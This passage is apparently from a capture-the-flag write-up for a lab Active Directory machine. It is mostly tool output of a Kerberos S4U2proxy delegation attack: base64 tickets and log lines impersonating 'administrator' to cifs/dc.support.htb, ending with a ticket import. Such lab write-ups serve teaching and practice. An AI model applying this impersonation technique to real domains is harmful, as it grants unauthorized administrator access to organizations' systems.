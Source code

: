           YHlqh3QJiA2OXe2bm742HtNJOMVkNHB5Fg5wtcvVororI+2IzYQudpQy8sWzVHyEoUpEbTnZGMQL45nb
          TwSK1aSg71d5Bzr6Y5NB/ipmhYP45lA2hRci7RZAOn/tt7T6yhTjQsn1/RfC9XPax/vpzBYI5d5HFAO5
          4BBcA7mMXQHJ0XOkOIHo87AeLyW8UjshDgw6sjeebtAWxXjjuvUqNOkfuxXAAvP4OZIs4qA1hRp+jZj8
          KlrRqDqiqCmAD1Li7SGDMgUA8OlX+7leb/ZouUX4/edRVqZDLvT/nxmHN8BzQipvq/YkkEAwIdvisvR9
          JBCr248djlp7ZsZRGWKaNLlkB2o6pfqOZwx3wNrKjz44/HR51tYx7qaiRnuhAt0Xeyf5OK1Y6HYk/Xev
          VzKUoCcVoZQS8cYWNRlanlE4kdhKl40us2bny8GIEvKoDnt0NYWr5WaUohi7gK0g9sw29FfgqSDOnU7q
          x2QUkLlT0x3ZeqwwTIS+odRAUh+4SP+dDf/ip77FSRM+krPERNZoE9W0QAhPGPHf3C/3mxt8MnESZJ+I
          TL3dYzFTDXjg7OWb3MJ/cNziBCpQX726jeHuey6+iuUhPWJEu72qWdQRjoW09eBqhaOB1jCB06ADAgEA
          ooHLBIHIfYHFMIHCoIG/MIG8MIG5oBswGaADAgEXoRIEEFgqzBwaCN/nUkRZaYlagIShDRsLU1VQUE9S
          VC5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjIwNTI3MTkzODE3
          WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRCqR4wHKAD
          AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

    [*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
    [*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
    [*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

          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
    [+] Ticket successfully imported!



### Use Ticket
